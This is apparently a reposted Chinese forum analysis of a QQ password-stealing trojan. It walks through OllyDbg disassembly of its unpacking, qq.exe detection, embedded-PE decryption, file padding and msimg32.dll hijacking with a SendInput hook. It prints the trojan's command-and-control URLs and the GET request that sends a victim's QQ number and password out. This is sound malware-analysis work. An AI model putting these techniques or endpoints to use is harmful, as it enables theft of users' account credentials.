






# 最新 QQ 盗号木马分析,内含增肥术

> 原文：`www.pediy.com/kssd/pediy12/135406.html`

拿到这个样本时，他的名字叫"`29.exe`"，拿起`PEID`查之，`UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo [Overlay]`，是个压缩壳，然后在看下他有没有附加数据，用`Stud_PE`查之，如果有，看来是木马生成器生成的！



OK.`OD`载入，`ESP`定律，迅速到达`OEP`！

代码：

```
00402310    6A 00             push    0
00402312    FF15 18204000    call    near dword ptr ds:[402018]     ; kernel32.GetModuleHandleA
00402318    A3 A4364000      mov     dword ptr ds:[4036A4], eax     ; 29.00400000
0040231D    FF15 14204000    call    near dword ptr ds:[402014]     ; kernel32.GetCommandLineA
00402323    6A 0A            push    0A
00402325    A3 A0364000      mov     dword ptr ds:[4036A0], eax     ; 29.00400000
0040232A    50               push    eax                              ; 29.00400000
0040232B    A1 A4364000      mov     eax, dword ptr ds:[4036A4]
00402330    6A 00            push    0
00402332    50               push    eax                              ; 29.00400000
00402333    E8 58000000      call    00402390
```

代码层次比较多，一个个写的话会比较乱，所以就贴一起主要地方：

代码：

```
00402390    83EC 64          sub     esp, 64                           ; 分配一部分局部空间
00402393    B0 69            mov     al, 69
00402395    53               push    ebx
00402396    B3 64            mov     bl, 64
00402398    884424 10        mov     byte ptr ss:[esp+10], al
0040239C    884424 14        mov     byte ptr ss:[esp+14], al
004023A0    884424 18        mov     byte ptr ss:[esp+18], al
004023A4    B8 30000000      mov     eax, 30
004023A9    885C24 0F        mov     byte ptr ss:[esp+F], bl
004023AD    885C24 15        mov     byte ptr ss:[esp+15], bl
004023B1    56               push    esi                              ; 29.00402340
004023B2    8B7424 70        mov     esi, dword ptr ss:[esp+70]       ; 模块句柄 0400000
004023B6    33DB             xor     ebx, ebx
004023B8    884424 0D        mov     byte ptr ss:[esp+D], al
004023BC    884424 0B        mov     byte ptr ss:[esp+B], al
004023C0    894424 3C        mov     dword ptr ss:[esp+3C], eax
004023C4    B2 54            mov     dl, 54
004023C6    B1 6F            mov     cl, 6F
004023C8    8D4424 10        lea     eax, dword ptr ss:[esp+10]
004023CC    68 007F0000      push    7F00
004023D1    53               push    ebx
004023D2    885424 18        mov     byte ptr ss:[esp+18], dl         ; 下面其实是把字符串一个一个写入局部地址,病毒常用伎俩
004023D6    C64424 19 58     mov     byte ptr ss:[esp+19], 58
004023DB    C64424 1A 47     mov     byte ptr ss:[esp+1A], 47
004023E0    C64424 1D 46     mov     byte ptr ss:[esp+1D], 46
004023E5    884C24 25        mov     byte ptr ss:[esp+25], cl
004023E9    884C24 1E        mov     byte ptr ss:[esp+1E], cl
004023ED    C64424 1F 75     mov     byte ptr ss:[esp+1F], 75
004023F2    C64424 22 61     mov     byte ptr ss:[esp+22], 61
004023F7    C64424 23 74     mov     byte ptr ss:[esp+23], 74
004023FC    C64424 26 6E     mov     byte ptr ss:[esp+26], 6E
00402401    885C24 27        mov     byte ptr ss:[esp+27], bl
00402405    885424 10        mov     byte ptr ss:[esp+10], dl
00402409    C64424 11 4D     mov     byte ptr ss:[esp+11], 4D
0040240E    C64424 12 32     mov     byte ptr ss:[esp+12], 32
00402413    C64424 14 31     mov     byte ptr ss:[esp+14], 31
00402418    885C24 16        mov     byte ptr ss:[esp+16], bl
0040241C    C74424 48 03000>mov     dword ptr ss:[esp+48], 3
00402424    C74424 4C 40234>mov     dword ptr ss:[esp+4C], 402340    ; 窗口回调地址,去该地址上下断
0040242C    895C24 50        mov     dword ptr ss:[esp+50], ebx
00402430    895C24 54        mov     dword ptr ss:[esp+54], ebx
00402434    897424 58        mov     dword ptr ss:[esp+58], esi       ; 29.00402340
00402438    C74424 64 10000>mov     dword ptr ss:[esp+64], 10
00402440    895C24 68        mov     dword ptr ss:[esp+68], ebx
00402444    894424 6C        mov     dword ptr ss:[esp+6C], eax
00402448    FF15 CC204000    call    near dword ptr ds:[4020CC]     ; USER32.LoadIconA
0040244E    68 007F0000      push    7F00
00402453    53               push    ebx
00402454    894424 5C        mov     dword ptr ss:[esp+5C], eax
00402458    894424 70        mov     dword ptr ss:[esp+70], eax
0040245C    FF15 D0204000    call    near dword ptr ds:[4020D0]     ; USER32.LoadCursorA
00402462    8D4C24 3C        lea     ecx, dword ptr ss:[esp+3C]
00402466    51               push    ecx
00402467    894424 5C        mov     dword ptr ss:[esp+5C], eax
0040246B    FF15 D4204000    call    near dword ptr ds:[4020D4]     ; USER32.RegisterClassExA
00402471    53               push    ebx
00402472    56               push    esi                              ; 29.00402340
00402473    53               push    ebx
00402474    53               push    ebx
00402475    68 00000080      push    80000000
0040247A    68 00000080      push    80000000
0040247F    68 00000080      push    80000000
00402484    68 00000080      push    80000000
00402489    8D5424 28        lea     edx, dword ptr ss:[esp+28]
0040248D    68 0000CF00      push    0CF0000
00402492    8D4424 34        lea     eax, dword ptr ss:[esp+34]
00402496    52               push    edx
00402497    50               push    eax
00402498    53               push    ebx
00402499    FF15 D8204000    call    near dword ptr ds:[4020D8]     ; CreateWindowExA 这条运行后,会下断在窗口回调上
```

代码：

```
00402340    8B4424 08        mov     eax, dword ptr ss:[esp+8]        ; 窗口回调首地址
00402344    83F8 02          cmp     eax, 2
00402347    75 0D            jnz     short 00402356                   ; 29.00402356
00402349    6A 00            push    0
0040234B    FF15 F0204000    call    near dword ptr ds:[4020F0]     ; USER32.PostQuitMessage
00402351    33C0             xor     eax, eax
00402353    C2 1000          retn    10
00402356    83F8 01          cmp     eax, 1
00402359    75 0D            jnz     short 00402368                   ; 29.00402368
0040235B    E8 90040000      call    004027F0                         ; 进这里
00402360    6A 00            push    0
00402362    FF15 10204000    call    near dword ptr ds:[402010]     ; kernel32.ExitProcess
00402368    8B4C24 10        mov     ecx, dword ptr ss:[esp+10]
0040236C    8B5424 0C        mov     edx, dword ptr ss:[esp+C]        ; USER32.77D18734
00402370    51               push    ecx
00402371    52               push    edx
00402372    50               push    eax
00402373    8B4424 10        mov     eax, dword ptr ss:[esp+10]
00402377    50               push    eax
00402378    FF15 F4204000    call    near dword ptr ds:[4020F4]     ; USER32.DefWindowProcA
0040237E    C2 1000          retn    10
```

代码：

```
004027F0    E8 0BFEFFFF      call    00402600                         ; 这个 CALL 判断病毒是否已经运行
004027F5    E8 26000000      call    00402820                         ; 29.00402820
004027FA    E8 C1FFFFFF      call    004027C0                         ; 29.004027C0
004027FF    A1 98364000      mov     eax, dword ptr ds:[403698]
00402804    50               push    eax
00402805    FF15 C4204000    call    near dword ptr ds:[4020C4]     ; USER32.CloseWindow
0040280B    E8 60FEFFFF      call    00402670                         ; 29.00402670
00402810    6A 00            push    0
00402812    FF15 10204000    call    near dword ptr ds:[402010]     ; kernel32.ExitProcess
```

其中：`qq.exe` 进程名的比较方式也是一个字节一个字节的比较的



代码：


```
004010E0    81EC 50010000   sub     esp, 150
004010E6    53              push    ebx
004010E7    55              push    ebp
004010E8    56              push    esi                     ; 29.00402340
004010E9    57              push    edi
004010EA    33C0            xor     eax, eax
004010EC    B9 49000000     mov     ecx, 49
004010F1    8D7C24 3C       lea     edi, dword ptr ss:\[esp+3C\]
004010F5    50              push    eax
004010F6    F3:AB           rep     stos dword ptr es:\[edi\]
004010F8    6A 02           push    2
004010FA    C74424 40 28010>mov     dword ptr ss:\[esp+40\], 128
00401102    E8 CB170000     call    004028D2                 ; jmp 到 kernel32.CreateToolhelp32Snapshot
00401107    8BE8            mov     ebp, eax
00401109    83FD FF         cmp     ebp, -1
0040110C    75 0D           jnz     short 0040111B             ; 29.0040111B
0040110E    5F              pop     edi                      ; 0012F838
0040110F    5E              pop     esi                      ; 0012F838
00401110    5D              pop     ebp                      ; 0012F838
00401111    33C0            xor     eax, eax
00401113    5B              pop     ebx                      ; 0012F838
00401114    81C4 50010000   add     esp, 150
0040111A    C3              retn
0040111B    8D4424 38       lea     eax, dword ptr ss:\[esp+38\]
0040111F    50              push    eax
00401120    55              push    ebp
00401121    E8 B8170000     call    004028DE                 ; jmp 到 kernel32.Process32First
00401126    85C0            test    eax, eax
00401128    75 0B           jnz     short 00401135             ; 29.00401135
0040112A    5F              pop     edi                      ; 0012F838
0040112B    5E              pop     esi                      ; 0012F838
0040112C    5D              pop     ebp                      ; 0012F838
0040112D    5B              pop     ebx                      ; 0012F838
0040112E    81C4 50010000   add     esp, 150
00401134    C3              retn
00401135    B9 0A000000     mov     ecx, 0A
0040113A    33C0            xor     eax, eax
0040113C    8D7C24 10       lea     edi, dword ptr ss:\[esp+10\]
00401140    8D5424 10       lea     edx, dword ptr ss:\[esp+10\]
00401144    F3:AB           rep     stos dword ptr es:\[edi\]
00401146    8D7C24 5C       lea     edi, dword ptr ss:\[esp+5C\]
0040114A    83C9 FF         or      ecx, FFFFFFFF
0040114D    F2:AE           repne   scas byte ptr es:\[edi\]
0040114F    F7D1            not     ecx
00401151    2BF9            sub     edi, ecx
00401153    8BC1            mov     eax, ecx
00401155    8BF7            mov     esi, edi
00401157    8BFA            mov     edi, edx
00401159    C1E9 02         shr     ecx, 2
0040115C    F3:A5           rep     movs dword ptr es:\[edi\], dword p>
0040115E    8BC8            mov     ecx, eax
00401160    83E1 03         and     ecx, 3
00401163    F3:A4           rep     movs byte ptr es:\[edi\], byte ptr>
00401165    8A4C24 10       mov     cl, byte ptr ss:\[esp+10\]
00401169    8A5424 13       mov     dl, byte ptr ss:\[esp+13\]
0040116D    8A4424 11       mov     al, byte ptr ss:\[esp+11\]
00401171    80F9 51         cmp     cl, 51
00401174    74 05           je      short 0040117B             ; 29.0040117B
00401176    80F9 71         cmp     cl, 71
00401179    75 35           jnz     short 004011B0             ; 29.004011B0
0040117B    3C 51           cmp     al, 51
0040117D    74 04           je      short 00401183             ; 29.00401183
0040117F    3C 71           cmp     al, 71
00401181    75 2D           jnz     short 004011B0             ; 29.004011B0
00401183    807C24 12 2E    cmp     byte ptr ss:\[esp+12\], 2E
00401188    75 26           jnz     short 004011B0             ; 29.004011B0
0040118A    8A5C24 14       mov     bl, byte ptr ss:\[esp+14\]
0040118E    80FB 58         cmp     bl, 58
00401191    74 05           je      short 00401198             ; 29.00401198
00401193    80FB 78         cmp     bl, 78
00401196    75 18           jnz     short 004011B0             ; 29.004011B0
00401198    80FA 45         cmp     dl, 45
0040119B    74 05           je      short 004011A2             ; 29.004011A2
0040119D    80FA 65         cmp     dl, 65
004011A0    75 0E           jnz     short 004011B0             ; 29.004011B0
004011A2    8A5C24 15       mov     bl, byte ptr ss:\[esp+15\]
004011A6    80FB 45         cmp     bl, 45
004011A9    74 5E           je      short 00401209             ; 29.00401209
004011AB    80FB 65         cmp     bl, 65
004011AE    74 59           je      short 00401209             ; 29.00401209
004011B0    3C 4D           cmp     al, 4D
004011B2    74 04           je      short 004011B8             ; 29.004011B8
004011B4    3C 6D           cmp     al, 6D
004011B6    75 33           jnz     short 004011EB             ; 29.004011EB
004011B8    807C24 12 2E    cmp     byte ptr ss:\[esp+12\], 2E
004011BD    75 2C           jnz     short 004011EB             ; 29.004011EB
004011BF    80FA 45         cmp     dl, 45
004011C2    74 05           je      short 004011C9             ; 29.004011C9
004011C4    80FA 65         cmp     dl, 65
004011C7    75 22           jnz     short 004011EB             ; 29.004011EB
004011C9    8A4424 14       mov     al, byte ptr ss:\[esp+14\]
004011CD    3C 58           cmp     al, 58
004011CF    74 04           je      short 004011D5             ; 29.004011D5
004011D1    3C 78           cmp     al, 78
004011D3    75 16           jnz     short 004011EB             ; 29.004011EB
004011D5    8A4424 15       mov     al, byte ptr ss:\[esp+15\]
004011D9    3C 45           cmp     al, 45
004011DB    74 04           je      short 004011E1             ; 29.004011E1
004011DD    3C 65           cmp     al, 65
004011DF    75 0A           jnz     short 004011EB             ; 29.004011EB
004011E1    80F9 54         cmp     cl, 54
004011E4    74 23           je      short 00401209             ; 29.00401209
004011E6    80F9 74         cmp     cl, 74
004011E9    74 1E           je      short 00401209             ; 29.00401209
004011EB    8D4C24 38       lea     ecx, dword ptr ss:\[esp+38\]
004011EF    51              push    ecx
004011F0    55              push    ebp
004011F1    E8 E2160000     call    004028D8                 ; jmp 到 kernel32.Process32Next
004011F6    85C0            test    eax, eax
004011F8   ^ 0F85 37FFFFFF   jnz     00401135                 ; 29.00401135
004011FE    5F              pop     edi                      ; 0012F838
004011FF    5E              pop     esi                      ; 0012F838
00401200    5D              pop     ebp                      ; 0012F838
00401201    5B              pop     ebx                      ; 0012F838
00401202    81C4 50010000   add     esp, 150
00401208    C3              retn
```


### 汇编代码分析

```
004016CD    56                push    esi
004016CE    68 38214000       push    402138                                ; ASCII "QQ2010" 
004016D3    E8 08FDFFFF       call    004013E0                              ; 通过注册表查找 QQ 路径,找到路径之后在查找其目录下的 tssafeedit.dat 文件是否存在
```

判断 `msimg32.dll` 文件是否存在，存在就说明病毒已经运行过了，如果不存在就创建一个，看名称就知道是准备用 DLL 劫持技术了!

然后删除 `AutoLogin.dat` 文件，看名称就可以猜到这是 QQ 自动登录用的文件。

然后判断 `"C:\\Program Files\\Tencent\\QQ\\Users\\All Users\\QQ\\Registry.db"` 文件是否存在，如果存在的话就会执行下面的代码：

```
00401BE1    8D4C24 2C         lea     ecx, dword ptr ss:[esp+2C]
00401BE5    51                push    ecx                                   ; ntdll.7C92F641
00401BE6    E8 65FCFFFF       call    00401850                              ; 29.00401850


00401BEB    8B15 A4364000     mov     edx, dword ptr ds:[4036A4]            ; 29.00400000
00401BF1    81C2 18960100     add     edx, 19618
00401BF7    52                push    edx                                   ; ntdll.KiFastSystemCallRet
00401BF8    E8 93000000       call    00401C90                              ; 打开自己  读入附加数据


00401C0A    8A1C30            mov     bl, byte ptr ds:[eax+esi]
00401C0D    80F3 73           xor     bl, 73
00401C10    881C30            mov     byte ptr ds:[eax+esi], bl
00401C13    40                inc     eax
00401C14    3D 87850000       cmp     eax, 8587
00401C19    72 EF             jb      short 00401C0A                        ; 解密一个放在数据段另一个 PE 文件


00401C44    51                push    ecx                                   ; MSVCRT.77BFC2E3
00401C45    68 87850000       push    8587
00401C4A    50                push    eax
00401C4B    56                push    esi                                   ; 29.0041108C
00401C4C    E8 2F160000       call    00403280                              ; 解密一个放在数据段另一个 PE 文件(第二层)

00401C51    8B15 B4364000     mov     edx, dword ptr ds:[4036B4]
00401C57    81C2 1C110000     add     edx, 111C
00401C5D    52                push    edx
00401C5E    E8 CDFAFFFF       call    00401730                              ; 然后在偏移 111C 处将读取出来的附加数据覆盖上去

00401C63    A1 B8364000       mov     eax, dword ptr ds:[4036B8]
00401C68    8B0D B4364000     mov     ecx, dword ptr ds:[4036B4]
00401C6E    50                push    eax
00401C6F    8D9424 30010000   lea     edx, dword ptr ss:[esp+130]
00401C76    51                push    ecx
00401C77    52                push    edx
00401C78    E8 E3FAFFFF       call    00401760                              ; 这里就是增肥了,随机生成一些字节,循环写入 N 次,放在文件尾,可以直接咔嚓掉

然后退出,自删除,等 QQ 运行后加载 msimg32.dll 之后盗取 QQ 密码!
```

### 清理建议

楼下分析 `msimg32`（重点），该木马只需要删除 `msimg32.dll` 就等于清除了木马，该文件被隐藏，请用 `XUETR` 等工具删除!

### 附件

|  || 29.rar(解压密码是：muma)  

 |

在写此文之前我已经分析过了，要说明的是该 DLL 我们不能用 `OD` 单独分析，否则你不知道他干了什么，因为他只有被 `QQ.EXE` 载入他才会有所行为，所以我们要调试 QQ 才行，在此之前我们要修改一下 `msimg32.dll` 的入口，因为我们用 `OD` 载入 `QQ` 时，其 DLL 文件都被载入了，我们只需要在 `msimg32.dll` 入口修改成 `int3`，然后设置取消 `OD` 对 `INT3` 的断点忽略:  

  

不然载入时会悲剧的出现应用程序初始化失败的信息框提示:  

  

设置好后，重新载入就会断在 `msimg32.dll` 入口上面了，把修改的字节改过来，重新设置 `EIP`，开始分析.  

  

因为之前分析过了，为了节约时间，大家先直接用 `BP CreateThread` 下断，因为他的主体部分是从线程开始!  

```
0012F85C   6300198D  /CALL 到 CreateThread 来自 MSIMG32.6300198B  

0012F860   00000000  |pSecurity = NULL  

0012F864   00000000  |StackSize = 0  

0012F868   63002D50  |ThreadFunction = MSIMG32.63002D50  转到这里,下断  

0012F86C   00000000  |pThreadParm = NULL  

0012F870   00000000  |CreationFlags = 0  

0012F874   00000000  \pThreadId = NULL  
```

然后到达这里:

代码:

```
63002D50    83EC 10           sub     esp, 10
63002D53    56                push    esi                     ; kernel32.GetModuleHandleA
63002D54    57                push    edi                     ; kernel32.Sleep
63002D55    E8 663A0000       call    630067C0                ; 里面有三个 CALL,分别把用到的 3 个库中的 API 载入
63002D5A    8B35 18100063     mov     esi, dword ptr ds:[63001018]    ; kernel32.GetModuleHandleA
63002D60    B0 64             mov     al, 64
63002D62    884424 13         mov     byte ptr ss:[esp+13], al
63002D66    884424 0F         mov     byte ptr ss:[esp+F], al
63002D6A    8D4424 08         lea     eax, dword ptr ss:[esp+8]
63002D6E    B2 61             mov     dl, 61
63002D70    B1 74             mov     cl, 74
63002D72    50                push    eax
63002D73    C705 70810063 1>  mov     dword ptr ds:[63008170], 12
63002D7D    C64424 0E 53      mov     byte ptr ss:[esp+E], 53
63002D82    885424 0F         mov     byte ptr ss:[esp+F], dl
63002D86    C64424 10 66      mov     byte ptr ss:[esp+10], 66
63002D8B    884C24 15         mov     byte ptr ss:[esp+15], cl
63002D8F    C64424 16 2E      mov     byte ptr ss:[esp+16], 2E
63002D94    C64424 11 65      mov     byte ptr ss:[esp+11], 65
63002D99    C64424 12 45      mov     byte ptr ss:[esp+12], 45
63002D9E    C64424 0C 54      mov     byte ptr ss:[esp+C], 54
63002DA3    C64424 0D 53      mov     byte ptr ss:[esp+D], 53
63002DA8    C64424 14 69      mov     byte ptr ss:[esp+14], 69
63002DAD    885424 18         mov     byte ptr ss:[esp+18], dl
63002DB1    884C24 19         mov     byte ptr ss:[esp+19], cl
63002DB5    C64424 1A 00      mov     byte ptr ss:[esp+1A], 0
63002DBA    FFD6              call    near esi                ; 判断 TSSafeEdit.dat 是否已经被载入
63002DBC    8B3D 20100063     mov     edi, dword ptr ds:[63001020]    ; kernel32.Sleep
63002DC2    85C0              test    eax, eax
63002DC4    75 12             jnz     short 63002DD8            ; 如果还没有载入,就等待载入
63002DC6    68 F4010000       push    1F4
63002DCB    FFD7              call    near edi                ; kernel32.Sleep
63002DCD    8D4C24 08         lea     ecx, dword ptr ss:[esp+8]
63002DD1    51                push    ecx
63002DD2    FFD6              call    near esi                ; kernel32.GetModuleHandleA
63002DD4    85C0              test    eax, eax
63002DD6    74 EE             je      short 63002DC6            ; 直到 TSSafeEdit 被载入才执行下面的代码
63002DD8    E8 33ECFFFF       call    63001A10                ; 内含 VM,还没能力分析,是对 TSSafeEdit 的一些猥琐操作
63002DDD    E8 3EEAFFFF       call    63001820                ; 挂钩 SendInput,手法挺妙的
```

  

代码:

```
63002DE2    E8 F9EEFFFF       call    63001CE0                ; 判断 LoginCtrl.dll 是否被载入,我当前是没有载入的情况,直接跳出
63002DE7    85C0              test    eax, eax
63002DE9    75 0F             jnz     short 63002DFA            ; MSIMG32.63002DFA
63002DEB    C705 B8870063 0>  mov     dword ptr ds:[630087B8], 1       ; 记录"LoginCtrl.dll"没有载入
63002DF5    E8 56F7FFFF       call    63002550                ; 对"KernelUtil.dll"部分地址进行挂钩,有 VM,压力很大,无力分析
63002DFA    E8 61000000       call    63002E60                            ; 解密 29.exe 覆盖进的附加数据,解密算法很高级,求此算法名称~
```

```
0050F738  68 74 77 70 73 3A 2F 2F 31 32 31 2E 32 30 35 2E  https://121.205.  
0050F748  38 39 2E 32 31 31 3A 38 30 38 30 2F 64 64 2F 68  89.211:8080/dd/h  
0050F758  6F 68 6F 2E 61 73 70 00 00 00 00 00 00 00 00 00  oho.asp.........  
0050F768  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F778  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F788  00 00 00 00 00 00 00 00 00 00 68 74 74 70 3A 2F  ..........http:/  
0050F798  2F 32 32 32 2E 32 31 31 2E 36 34 2E 32 31 36 3A  /222.211.64.216:  
0050F7A8  38 37 2F 64 64 2F 61 73 70 78 2E 61 73 70 00 00  87/dd/aspx.asp..  
0050F7B8  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F7C8  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F7D8  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F7E8  00 00 00 00 68 74 74 70 73 3A 2F 2F 35 39 2E 36  ....https://59.6  
0050F7F8  30 2E 32 31 2E 31 35 39 3A 34 30 30 30 2F 64 64  0.21.159:4000/dd  
```


```
0050F808  2F 67 6F 2E 61 73 70 00 00 00 00 00 00 00 00 00  /go.asp.........  
0050F818  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F828  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F838  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F848  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F858  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F868  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F878  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F888  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F898  00 00 00 00 00 00 00 00 68 74 74 70 3A 2F 2F 00  ........http://.  
0050F8A8  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F8B8  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F8C8  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F8D8  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
0050F8E8  00 00 00 00 00 00 00 00 64 64 00 00 00 00 00 00  ........dd......  
0050F8F8  00 00 73 64 66 73 00 00 00 00 00 00 00 00 00 00  ..sdfs..........  
0050F908  00 00 00 00 00 00 00 00 DE 00 3C 00 00 10 00 00  ........?<....  
0050F918  78 01 50 00 78 01 50 00 00 00 00 00 00 00 00 00  xP.xP.........  
0050F928  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................  
```

`https://121.205.89.211:8080/dd/hoho.asp`

`http://222.211.64.216:87/dd/aspx.asp`

`https://59.60.21.159:4000/dd/go.asp`

`http://`

`dd`

`sdfs`

然后等登录成功后就会发送到目标地址 如:

`GET dd/aspx.asp?Uid=1661129844&Upa=6161616138383838&B=0&D=0&gt=0&ll=ff&Fs=293FF4FE`
